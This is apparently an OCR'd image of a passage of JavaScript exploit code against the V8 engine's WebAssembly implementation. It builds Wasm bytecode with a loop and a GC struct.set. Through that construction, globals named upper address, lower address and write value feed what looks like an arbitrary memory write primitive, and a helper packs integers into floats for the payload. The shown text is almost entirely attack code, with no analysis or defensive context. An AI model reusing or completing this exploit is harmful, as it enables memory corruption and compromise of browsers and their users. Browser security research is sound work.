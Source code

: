 ```js
        ...wasmF32Const(0),
        ...wasmF64Const(0),
        kExprRefNull, kFuncRefCode,
    kExprEnd,

    kExprLoop, $sig3,
        kExprGlobalGet, $globalLoopCounter,
        kExprI32Const, 0x1,
        kExprI32Sub,
        kExprGlobalSet, $globalLoopCounter,
        kExprGlobalGet, $globalLoopCounter,
        kExprI32Const, 1, 
        kExprI32LtS,

        kExprIf, kWasmVoid,
            kExprLocalGet, 0,
            kExprGlobalGet, $globalWriteValue,
            kGCPrefix, kExprStructSet, 2, 0, 
            kExprReturn,
        kExprEnd,
        
        kExprDrop, 
        kExprDrop, 
        kExprDrop,
        kExprDrop,
        kExprLocalSet, 0,
        
        kExprI64Const, 0,
        kExprRefNull, 2,
        kExprGlobalGet, $globalUpperAddr, 
        kExprGlobalGet, $globalLowerAddr, 
        ...wasmF64Const(1),
        kExprRefFunc, dummyFunc,
        kExprBr, 0,
    kExprEnd,
    kExprEnd,
]).index;

builder.addFunction('main', makeSig([kWasmF32, kWasmF32, kWasmF32], []))
  .addBodyWithEnd([
    kExprLocalGet, 0,
    kExprGlobalSet, $globalUpperAddr,

    kExprLocalGet, 1,
    kExprGlobalSet, $globalLowerAddr,

    kExprLocalGet, 2,
    kExprGlobalSet, $globalWriteValue,

    kExprRefNull, 0x2,
    kExprCallFunction, triggerIdx,
    kExprEnd, 
]).exportFunc();

function dummyFunc() {};
function intToFloat32(val) {
    let byte_view = new Uint8Array(8);
    let data_view = new DataView(byte_view.buffer);
    data_view.setUint32(0, val, true)
    return data_view.getFloat32(0, true);
}

```